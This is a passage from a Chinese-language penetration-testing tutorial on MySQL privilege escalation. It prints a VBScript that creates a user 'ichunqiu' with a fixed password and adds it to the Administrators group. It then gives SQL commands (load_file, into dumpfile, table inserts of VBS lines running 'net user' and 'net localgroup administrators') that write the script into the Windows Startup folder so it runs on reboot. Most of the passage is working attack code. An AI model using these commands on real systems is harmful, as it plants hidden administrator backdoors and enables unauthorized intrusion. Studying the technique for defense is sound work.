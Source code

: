 ```vbscript
set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
os="WinNT://"&wsnetwork.ComputerName 
Set ob=GetObject(os)         '得到adsi接口,绑定 
Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
Set od=ob.Create("user", "ichunqiu")         '建立用户 
od.SetPassword "123.com"        '设置密码 
od.SetInfo         '保存 
Set of=GetObject(os&"/ichunqiu",user)        '得到用户 
oe.add os&"/ichunqiu"
```

##### b. 上传到开机启动项目录

* 需有高权限，否则无法上传，报如下错误

```sql
select load_file('C:/phpStudy/WWW/1.vbs') into dumpfile "C:/Documents and Settings/All Users/「开始」菜单/程序/启动/1.vbs"
```

![权限不足报错](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300958683.png)

#### (4). SQL写入

1. 连接目标Mysql数据库

2. 进入某一数据库，创建一张新的表,该表只有一个字段

   ```mysql
   create table a(cmd text)
   ```

   ![创建数据库](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301000662.png)

3. 表中插入字段，字段内容为VBS脚本代码

   ```mysql
   insert into a values("set wshshell=createobject(""wscript.shell"")");
   insert into a values("a=wshshell.run(""cmd.exe /c net user test test1234 /add"",0)");	#指令内容为创建一个用户
   insert into a values("b=wshshell.run(""cmd.exe net localgroup administrators test /add"",0)");	#添加到高权限组
   ```

   ![插入vbs脚本内容](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301001484.png)

4. 将表输出为一个VBS脚本文件

   * 须确保高权限，否则会报如下错误

   ```mysql
   select * from a into dumpfile "C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\1.vbs";
   ```

   ![内容输出为VBS](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301001795.png)

5. 利用其他手段重启电脑
